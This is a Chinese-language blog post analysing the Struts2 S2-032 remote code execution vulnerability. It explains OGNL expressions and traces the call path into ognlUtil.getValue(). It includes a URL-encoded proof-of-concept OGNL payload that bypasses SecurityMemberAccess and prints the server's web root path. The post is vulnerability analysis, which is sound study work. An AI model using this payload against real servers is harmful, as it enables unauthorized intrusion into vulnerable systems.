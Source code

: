```yaml
---
layout:     post
title:      "Struts2 远程代码执行漏洞分析"
subtitle:   "S2-032"
data:       2016-04-29
author:     "dogewatch"
header-img: "img/home-bg-o.jpg"
tags:
    - web
    - 漏洞
---
```


> "gg"

## 前言

前天一大早起来在地铁上看到TK教主的微博里说Struts2又有漏洞了，去了测评后打开wooyun瞬间被各种命令执行刷屏了。本来想着要不要扫些网站刷点rank，然后又觉得这么做没任何意义，毕竟不想当一个工具小子或者是脚本小子。因为以前都没有分析过Struts2的漏洞，所以就想乘此机会搭个环境调一调这个漏洞具体是怎么回事的。
足足搞了一天，才搭了一个有S2-032漏洞的网站（在此表示对javaweb深恶痛绝）。不过在分析这个漏洞以前，需要先了解了解这一系列Struts2漏洞的罪魁祸首：OGNL表达式。

## OGNL

参考<a href="http://drops.wooyun.org/papers/340">这篇文章</a>（大部分引用原文），来聊一下这个OGNL表达式是个什么鬼。


OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。它使用相同的表达式去存取对象的属性。 OGNL三要素：

1. 表达式（Expression）

表达式是整个OGNL的核心，所有的OGNL操作都是针对表达式的解析后进行的。表达式会规定此次OGNL操作到底要干什么。我们可以看到，在上面的测试中，name、department.name等都是表达式，表示取name或者department中的name的值。OGNL支持很多类型的表达式，之后我们会看到更多。

2. 根对象（Root Object）

根对象可以理解为OGNL的操作对象。在表达式规定了“干什么”以后，你还需要指定到底“对谁干”。在上面的测试代码中，user就是根对象。这就意味着，我们需要对user这个对象去取name这个属性的值（对user这个对象去设置其中的department中的name属性值）。

3. 上下文环境（Context）

有了表达式和根对象，我们实际上已经可以使用OGNL的基本功能。例如，根据表达式对根对象进行取值或者设值工作。不过实际上，在OGNL的内部，所有的操作都会在一个特定的环境中运行，这个环境就是OGNL的上下文环境（Context）。说得再明白一些，就是这个上下文环境（Context），将规定OGNL的操作“在哪里干”。 OGN L的上下文环境是一个Map结构，称之为OgnlContext。上面我们提到的根对象（Root Object），事实上也会被加入到上下文环境中去，并且这将作为一个特殊的变量进行处理，具体就表现为针对根对象（Root Object）的存取操作的表达式是不需要增加#符号进行区分的。

OGNL表达式功能操作大体如下：

```

1. 基本对象树的访问
对象树的访问就是通过使用点号将对象的引用串联起来进行。
例如：xxxx，xxxx.xxxx，xxxx. xxxx. xxxx. xxxx. xxxx

2. 对容器变量的访问
对容器变量的访问，通过#符号加上表达式进行。
例如：#xxxx，#xxxx. xxxx，#xxxx.xxxxx. xxxx. xxxx. xxxx

3. 使用操作符号
OGNL表达式中能使用的操作符基本跟Java里的操作符一样，除了能使用 +, -, *, /, ++, --, ==, !=, = 等操作符之外，还能使用 mod, in, not in等。

4. 容器、数组、对象
OGNL支持对数组和ArrayList等容器的顺序访问：例如：group.users[0]
同时，OGNL支持对Map的按键值查找：
例如：#session['mySessionPropKey']
不仅如此，OGNL还支持容器的构造的表达式：
例如：{"green", "red", "blue"}构造一个List，#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}构造一个Map
你也可以通过任意类对象的构造函数进行对象新建：
例如：new Java.net.URL("xxxxxx/")

5. 对静态方法或变量的访问
要引用类的静态方法和字段，他们的表达方式是一样的@class@member或者@class@method(args)：
例如：@com.javaeye.core.Resource@ENABLE，@com.javaeye.core.Resource@getAllResources

6. 方法调用
直接通过类似Java的方法调用方式进行，你甚至可以传递参数：
例如：user.getName()，group.users.size()，group.containsUser(#requestUser)

7. 投影和选择
OGNL支持类似数据库中的投影（projection） 和选择（selection）。
投影就是选出集合中每个元素的相同属性组成新的集合，类似于关系数据库的字段操作。投影操作语法为 collection.{XXX}，其中XXX 是这个集合中每个元素的公共属性。
例如：group.userList.{username}将获得某个group中的所有user的name的列表。
选择就是过滤满足selection 条件的集合元素，类似于关系数据库的纪录操作。选择操作的语法为：collection.{X YYY}，其中X 是一个选择操作符，后面则是选择用的逻辑表达式。而选择操作符有三种：
? 选择满足条件的所有元素
^ 选择满足条件的第一个元素
$ 选择满足条件的最后一个元素
例如：group.userList.{? #txxx.xxx != null}将获得某个group中user的name不为空的user的列表。

```

由此可以看出，只要外部某些参数能够进入OGNL流程，那么理论上就可以执行恶意代码。而不幸的是，Struts2大量地使用了OGNL，从而导致其命令执行漏洞层出不穷。

## S2-032

这次爆出的漏洞其根本原因是在开启了动态方法调用以后，action?method：后的内容进入到了OGNL流程，导致了远程命令执行。

先上烂大街的POC：

```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23path%3d%23req.getRealPath(%23parameters.pp[0]),%23w%3d%23res.getWriter(),%23w.print(%23parameters.web[0]),%23w.print(%23parameters.path[0]),%23w.print(%23path),1?%23xx:%23request.toString&pp=%2f&encoding=UTF-8&web=web&path=path%3a
```

poc经过的几个关键函数大体如下：

1.在DefaultActionMapper.java中，DefaultActionMapper方法将method的值存入到ActionMapping的method属性中。
![img](/img/post/s2-1.png)

2.在DefaultActionProxyFactory.java中，DefaultActionProxy方法将ActionMapping的method值经过escapeEcmaScript，escapeHtml4过滤后传到了ActionProxy的method属性中。
![img](/img/post/s2-3.png)

3.最后DefaultActionInvocation.java中的invokeAction将ActionProxy的method值放入到了ognlUtil.getValue()方法中执行表达式。
![img](/img/post/s2-5.png)
（吐槽下IEDA的debug功能，跟了好多遍才跟进这个方法）method值后面被加上的()也很容易被绕过。

将_memberAccess赋值成DEFAULT_MEMBER_ACCESS后就能绕过SecurityMemberAccess为false的限制。

## 后记

感觉分析S2的漏洞还是挺简单的，不过想想里面的流程就觉得要是挖出这样一个CVE目前还是差得有点远。今天比赛没进前十，心塞塞>_<
